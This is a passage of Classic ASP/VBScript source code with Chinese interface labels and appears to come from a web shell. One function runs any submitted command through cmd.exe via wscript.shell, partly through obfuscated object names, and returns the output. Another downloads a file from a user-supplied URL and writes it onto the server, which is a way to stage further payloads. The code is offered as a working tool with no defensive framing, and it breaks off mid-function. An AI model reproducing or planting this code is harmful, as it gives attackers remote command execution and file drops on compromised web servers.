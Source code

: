 End Function
function cmd1shell()
checked=" checked"
if request("sp")<>"" then session("shellpath") = request("sp")
shellpath=session("shellpath")
if shellpath="" then shellpath = "cmd.exe"
if request("wscript")<>"yes" then checked=""
if request("cmd")<>"" then defcmd = request("cmd")
si="<form method='post'>shell路径：<input name='sp' value='"&shellpath&"' style='width:70%'><input class=c type='checkbox' name='wscript' value='yes'"&checked&">wscript.shell<input name='cmd' style='width:92%' value='"&defcmd&"'> <input type='submit' value='执行'><textarea style='width:100%;height:440;' class='cmd'>"
if request.form("cmd")<>"" then
if request.form("wscript")="yes" then
set cm=createobject(obt(1,0))
set dd=cm.exec(shellpath&" /c "&defcmd)
aaa=dd.stdout.readall
si=si&aaa
else
on error resume next
set ws=server.createobject("wscript.shell")
set ws=server.createobject("wscript.shell")
set fso=server.createobject(CONST_FSO)
sztempfile = server.mappath("cmd.txt")
call ws.run (shellpath&" /c " & defcmd & " > " & sztempfile, 0, true)
set fs = createobject(CONST_FSO)
set ofilelcx = fs.opentextfile (sztempfile, 1, false, 0)
aaa=server.htmlencode(ofilelcx.readall)
ofilelcx.close
call fso.deletefile(sztempfile, true)
si=si&aaa
end if
end if
si=si&chr(13)&"</textarea></form>"
j si
end function
Function upload()
j"<br><table width='80%' bgcolor='menu' border='0' cellspacing='1' cellpadding='0' align='center'>" 
j"..."
j" 无提示下载成功<hr/>"
j"<form method=post>"
j"<select onChange='this.form.theUrl.value=this.value;'>"
j"<option value=''>常用程序下载</option>"
j"<option value='"&Durl&"'>自定义程序</option>"
j"<input name=theUrl value='http://' size=80><input type=submit value=' 下载 '><br/>"
j"<input name=thePath value='" &RRePath(Session("FolderPath")) & "\' size=80>"
j"<input type=checkbox name=overWrite value=2>覆盖"
j"<input type=hidden value=downFromUrl name=theAct>"
j"</form>"
j"<hr/>"
If isDebugMode = False Then
On Error Resume Next
End If:Dim Http, theUrl, thePath, stream, fileName, overWrite
theUrl = Request("theUrl")
thePath = Request("thePath")
overWrite = Request("overWrite")
Set stream = Server.CreateObject("ad"&e&"odb.st"&e&"ream")
Set Http = Server.CreateObject("MSXML2.XMLHTTP")
If overWrite <> 2 Then:overWrite = 1:End If
Http.Open "GET", theUrl, False
Http.Send()
If Http.ReadyState <> 4 Then 
End If
With stream